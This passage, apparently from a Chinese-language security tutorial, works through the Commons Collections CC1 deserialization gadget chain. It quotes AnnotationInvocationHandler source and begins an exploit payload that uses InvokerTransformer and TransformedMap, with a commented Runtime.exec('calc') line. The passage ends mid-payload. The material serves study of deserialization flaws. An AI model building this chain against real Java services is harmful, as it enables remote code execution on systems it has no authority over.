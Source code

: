 我们可以发现，这个方法虽然可以调用setValue方法，但是有两个限制条件
```java
if (memberType != null)  //
```
（成员声明的类型）memberType变量非空
```java
!(memberType.isInstance(value) ||  
                  value instanceof ExceptionProxy)
```
当注解成员值的类型（value）与成员声明的类型（memberType）不匹配，且该值不是 ExceptionProxy 时，会触发类型校验逻辑即调用setValue
再查看整个类
```java
class AnnotationInvocationHandler implements InvocationHandler, Serializable {  
    private static final long serialVersionUID = 6182022883658399397L;  
    private final Class<? extends Annotation> type;  
    private final Map<String, Object> memberValues;  
  
    AnnotationInvocationHandler(Class<? extends Annotation> type, Map<String, Object> memberValues) {  
        Class<?>[] superInterfaces = type.getInterfaces();  
        if (!type.isAnnotation() ||  
            superInterfaces.length != 1 ||  
            superInterfaces[0] != java.lang.annotation.Annotation.class)  
            throw new AnnotationFormatError("Attempt to create proxy for a non-annotation type.");  
        this.type = type;  
        this.memberValues = memberValues;  
    }
```
可以发现其构造方法为默认权限修饰符，同时传递的两个参数类型为限定为注解类型的 Class 对象和键为成员名（String），值为成员值（Object）的映射map类型（泛型本质就是约束参数类型，而注解其实和python中的装饰器有些像，本质也是接口，隐式继承`java.lang.annotation.Annotation`接口，注解在编译后会被转换为继承Annotation接口的接口，JVM会在.class文件中为注解生成相应的元数据，运行时可以通过反射API读取这些注解信息
这里不必纠结）

并且其memberValues参数可控, 但是现在其实还有3个问题，第一个问题就是执行setValue需要上面的两个if条件，第二个Runtime类不可序列化，第三个问题是这里setValue方法中自带参数，不可控。
尝试解决第一个问题，首先可以在两个if语句下断点，看看对应的变量是如何执行的
当前payload
```java
package org.example;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.map.TransformedMap;  
  
  
import java.lang.annotation.Annotation;  
import java.lang.reflect.Method;  
import java.util.HashMap;  
import java.util.Map;  
import java.io.*;  
import java.lang.annotation.Retention;  
import java.lang.reflect.Constructor;  
import java.lang.reflect.InvocationHandler;  
import java.lang.reflect.Method;  
import java.util.HashMap;  
import java.util.Map;  
  
// 按两次 Shift 打开“随处搜索”对话框并输入 `show whitespaces`，  
// 然后按 Enter 键。现在，您可以在代码中看到空格字符。  
public class Main {  
    public static void main(String[] args) throws Exception {  
        Runtime runtime = Runtime.getRuntime();  
  
//        InvokerTransformer exp = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});  
//        exp.transform(runtime);  
```